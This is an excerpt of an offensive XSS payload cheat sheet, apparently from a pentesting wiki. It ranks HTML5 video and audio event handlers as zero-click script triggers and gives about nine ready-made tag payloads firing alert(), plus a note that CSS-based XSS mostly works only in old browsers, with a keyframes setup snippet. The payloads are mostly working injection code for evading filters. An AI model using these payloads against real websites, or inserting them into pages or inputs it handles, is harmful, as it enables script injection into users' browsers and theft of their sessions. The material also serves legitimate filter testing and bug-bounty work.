 ### **HTML5 events**

(0-click only)

| Name             | Tags         | Note                                                                                      |
| ---------------- | ------------ | ----------------------------------------------------------------------------------------- |
| onplay           | video, audio | For 0-click: combine with autoplay HTML attribute and combine with valid video/audio clip |
| onplaying        | video, audio | For 0-click: combine with autoplay HTML attribute and combine with valid video/audio clip |
| oncanplay        | video, audio | Must link to a valid video/audio clip                                                     |
| onloadeddata     | video, audio | Must link to a valid video/audio clip                                                     |
| onloadedmetadata | video, audio | Must link to a valid video/audio clip                                                     |
| onprogress       | video, audio | Must link to a valid video/audio clip                                                     |
| onloadstart      | video, audio | Great underexploited 0-click vector                                                       |
| oncanplay        | video, audio | Must link to a valid video/audio clip                                                     |

Examples:

| <pre class="language-html"><code class="lang-html">&#x3C;video autoplay onloadstart="alert()" src=x>&#x3C;/video>
&#x3C;video autoplay controls onplay="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/video>
&#x3C;video controls onloadeddata="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/video>
&#x3C;video controls onloadedmetadata="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/video>
&#x3C;video controls onloadstart="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/video>
&#x3C;video controls onloadstart="alert()">&#x3C;source src=x>&#x3C;/video>
&#x3C;video controls oncanplay="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/video>
&#x3C;audio autoplay controls onplay="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/audio>
&#x3C;audio autoplay controls onplaying="alert()">&#x3C;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4">&#x3C;/audio>
</code></pre> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

### **CSS-based events**

Unfortunately, true XSS through CSS appears dead. All the vectors I’ve attempted only work on extremely old browsers. So what we’ve got is XSS that triggers based on CSS unless you feel like arguing with devs that an IE8 or old opera vulnerability is still a valid risk.

Note: Below uses style tags to set up keyframes for animation(start|end), but you can also check for already included CSS to reuse what’s already there.

| <pre class="language-html"><code class="lang-html">&#x3C;style>@keyframes x {}&#x3C;/style>
</code></pre> |
| --------------------------------------------------------------------------------------------------------- |

